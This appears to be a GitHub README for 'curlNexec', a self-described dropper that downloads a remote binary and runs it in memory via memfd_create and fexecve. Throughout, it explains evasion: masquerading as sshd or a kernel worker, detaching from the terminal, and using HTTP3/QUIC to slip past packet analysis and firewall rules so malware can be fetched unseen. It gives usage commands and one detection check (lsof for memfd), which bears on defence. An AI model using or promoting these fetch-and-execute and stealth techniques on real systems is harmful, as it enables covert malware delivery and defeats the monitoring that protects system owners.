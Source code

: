 <h1 align=center> curlNexec </h1>

<div align="center">
<code>👋 Certainly useful , mainly for fun, rougly inspired by 0x00 <a href="https://0x00sec.org/t/super-stealthy-droppers/3715">article</a></code>
</div>

## Short story

`curlNexec` enable us to execute a remote binary on a local machine in one step

 - simple usage `curlNexec <binary_url>`
 - execute binary with specified program name: `curlNexec -n /usr/sbin/sshd <binary_raw_url>`
 - retrieve remote binary using http3 protocol and execute it: `curlNexec -http3 <binary_raw_url>`
 - detach program execution from `tty`: ` setsid curlNExec [...]` 

![demo](https://github.com/ariary/curlNexec/blob/main/img/curlNexec.gif)

<details>
  <summary><b>Explanation</b></summary>
We want to execute <code>writeNsleep</code> binary locate on a remote machine, locally. 

We first start a python http server on remote.
Locally we use <code>curlNexec</code> and impersonate the <code>/usr/sbin/sshd</code> name for the execution of the binary <code>writeNsleep</code>(for stealthiness & fun)

</details>

## Stealthiness story 

### memfd_create
The remote binary file is stored locally using `memfd_create` syscall, which store it within a _memory disk_ which is not mapped into the file system (*ie* you can't find it using `ls`).

### fexecve
Then we execute it using `fexecve` syscall (as it is currently not provided by `syscall` golang library we implem it). 

> With `fexecve` , we could but we reference the program to run using a
> file descriptor, instead of the full path.

### HTTP3/QUIC
<table><tr><td>
Enable it with <code>-Q</code>/<code>http3</code>  flag. <br>
You can setup a light web rootfs server supporting http3 by running `go run ./test/http3/light-server.go -p <listening_port>` (This is http3 equivalent of ` python3 -m http.server <listening_port>`)<br>
use `test/http3/genkey.sh` to generate cert and key.

 
 </td></tr></table>
 
`QUIC` UDP aka `http3` is a new generation Internet protocol that speeds online web applications that are susceptible to delay, such as searching, video streaming etc., by reducing the round-trip time (RTT) needed to connect to a server.

Because QUIC uses proprietary encryption equivalent to TLS (this will change in the future with a standardized version), **3rd generation firewalls that provide application control and visibility encounter difficulties to control and monitor QUIC traffic**.

If you actually use `curlNexec` as a dropper (***Only for testing purpose or with the authorization***), you likely to execute some type of malwares or other file that could be drop by packet analysis. Hence, with Quic enables you could **bypass packet analysis and GET a malware**.

Also, in case firewall is only used for allowing/blocking traffic it could happen that **firewall rules forget the udp protocol making your requests go under the radars**

### other skill for stealthiness

Although not present on the memory disk, the running program can still be detected using `ps` command for example. 

 1. Cover the tracks with a fake program name
 
`curlNexec --name <fake_name> <binary_raw_url>` by default the name is `[kworker/u:0]` 
 2. Detach from tty to map behaviour of deamon process
 
`setsid curlNexec <binary_raw_url>`. *WIP call `setsid` from code*

### Caveats
You could still be detected with:
```
$ lsof | grep memfd
```
